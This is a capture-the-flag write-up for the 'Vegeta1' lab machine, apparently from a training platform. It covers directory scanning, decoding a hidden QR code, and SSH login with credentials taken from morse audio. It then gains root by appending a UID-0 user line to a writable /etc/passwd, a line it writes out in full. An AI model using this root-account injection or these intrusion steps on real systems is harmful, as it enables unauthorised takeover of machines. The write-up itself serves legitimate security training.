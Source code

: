 # Vegeta1
### Enumeration
Port 22 and 80 are open. Running Feroxbuster:

```
301      GET        9l       28w      312c http://192.168.51.73/img => http://192.168.51.73/img/
200      GET        0l        0w        0c http://192.168.51.73/login.php
301      GET        9l       28w      314c http://192.168.51.73/image => http://192.168.51.73/image/
301      GET        9l       28w      314c http://192.168.51.73/admin => http://192.168.51.73/admin/
200      GET        1l        2w        9c http://192.168.51.73/admin/admin.php
403      GET        9l       28w      278c http://192.168.51.73/server-status
```

We can see `login.php` is an empty file, and `admin.php` has the contents `<?php ?>`.

Checking `/robots.txt`, we see `/find_me`. Visiting that path, we see a single file `find_me.html`. When we open it it, the only visible contents are `Vegeta-1.0`. But the file size was much too large for this to be the only content (it was 3.8 KB).

Turns out that there's an HTML comment at the bottom of the page containing a twice base64-encoded PNG file. Decoding and opening (`base64 -d find_me.html | base64 -d > outfile.png`), we get a QR code.

We can scan the QR code using `zbarimg outfile.png`. The encoded content is `Password : topshellv`.

Turns out this password isn't useful for anything.

### Foothold

Using feroxbuster, we find the directory `/bulma` which contains an audio file. The contents is morse code which when decoded gives the credentials `trunks` and `u$3r`. When we attempt to SSH as the `trunks` user with `u$3r` as the password, we get a shell.

### Privilege Escalation
Running linpeas, we discover that `/etc/passwd` is writable. Following the instructions on [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation#passwd-shadow-files), we generate a hashed password:

```
openssl passwd -1 -salt hacker hacker
```

Then we add the following line to `/etc/passwd`:

```
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

Now we can run:

```
su - hacker
> Password: hacker
```

And we have a root shell.